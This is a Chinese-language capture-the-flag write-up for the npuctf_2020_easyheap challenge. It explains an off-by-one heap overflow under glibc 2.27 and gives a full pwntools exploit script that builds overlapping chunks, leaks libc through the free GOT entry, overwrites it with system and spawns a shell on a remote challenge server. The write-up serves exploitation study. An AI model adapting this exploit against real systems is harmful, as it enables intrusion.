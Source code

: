 # buu076-npuctf_2020_easyheap
增删改查四个功能，其中增加只能增加大小为0x20或0x40的堆块。改功能有off by one漏洞。

本题环境是2.27，因此释放的堆块都会在tcache中保存。而要想tcache中的堆块被重新分配，其大小就必须是0x20或0x40。如果使用off by one漏洞修改一个堆块的size，则必须在其正在使用时修改，否则当堆块释放时修改大小，在重新分配时无法通过检查。至于大小的修改，有两种可能：改大或改小。

如果改大，则只能从0x20改为0x40，修改后的大小如果不为0x40，在释放后将无法被重新分配。如果改小，可以从0x40改为0x20，后面的部分由于可以控制，因此可以伪造成一个假chunk。

这里选择的是<font color=red>**改大**</font>。如何改？首先想象这样的堆排布：三个0x20的chunk，前面2个都是用作buffer，后面一个用于heaparray结构，现在通过edit第1个chunk将第2个chunk的大小改成0x40，再释放第2、3个chunk，就会产生chunk重叠，之后再重新分配回来，就可以通过edit随意修改heaparray中的指针，进而实现任意地址写。本题中最方便的就是改到free的got表位置，通过show获取libc地址，然后将这里的值改成system函数地址，直接delete即可get shell。

```py
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
# io = process("npuctf_2020_easyheap")
io = remote('node4.buuoj.cn', 29065)
elf = ELF("npuctf_2020_easyheap")

sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)

def create_heap(size, content):
	sla(b'Your choice :', b'1')
	sla(b'Size of Heap(0x10 or 0x20 only) : ', str(size).encode())
	sla(b'Content:', content)
	
def edit_heap(index, content):
	sla(b'Your choice :', b'2')
	sla(b'Index :', str(index).encode())
	sla(b'Content: ', content)

def show_heap(index):
	sla(b'Your choice :', b'3')
	sla(b'Index :', str(index).encode())
	
def delete_heap(index):
	sla(b'Your choice :', b'4')
	sla(b'Index :', str(index).encode())

create_heap(0x18, cyclic(0x38))	# 0
create_heap(0x18, cyclic(0x18))	# 1
create_heap(0x18, cyclic(0x18))	# 2
delete_heap(0)
edit_heap(1, b'/bin/sh'.ljust(0x18, b'\x00') + p8(0x41))
delete_heap(2)
create_heap(0x38, b'/bin/sh'.ljust(0x18, b'\x00') + p64(0x21) + p64(0x38) + p64(elf.got['free']))
show_heap(0)
io.recvuntil(b'Content : ')
free = u64(io.recv(6) + b'\x00\x00')
print(hex(free))
libc = LibcSearcher('free', free)
base = free - libc.dump('free')
print(hex(base))
system = base + libc.dump('system')
edit_heap(0, p64(system))
delete_heap(1)
io.interactive()
```
